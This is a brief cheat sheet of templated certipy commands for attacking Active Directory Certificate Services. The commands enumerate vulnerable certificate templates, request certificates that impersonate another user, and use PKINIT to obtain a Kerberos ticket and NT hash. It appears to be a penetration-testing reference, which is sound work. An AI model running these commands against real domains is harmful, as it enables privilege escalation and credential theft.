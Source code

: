 # certipy

% adcs, certificate, pki, windows, Active directory

## certipy - list certificate templates
#plateform/linux #target/remote #cat/RECON
```
certipy <domain>/<user>:<password>@<ip> find
```

## certipy - list vulnerables certificate templates
#plateform/linux #target/remote #cat/RECON
```
certipy <domain>/<user>:<password>@<ip> find -vulnerable
```

## certipy - request certificate for self
#plateform/linux #target/remote #cat/ATTACK
```
certipy <domain>/<user>:<password>@<ip> req -template <template> -ca <certificate_authority>
```

## certipy - request certificate for another user
#plateform/linux #target/remote #cat/ATTACK
```
certipy <domain>/<user>:<password>@<ip> req -template <template> -ca <certificate_authority> -alt <targeted_user>
```

## certipy - pkinit with certificate and private key - generate a TGT and get NT hash
#plateform/linux #target/remote #cat/CONNECT
```
certipy <domain>/<user>:<password>@<ip> auth -cert 
<filename> -key <filename>
```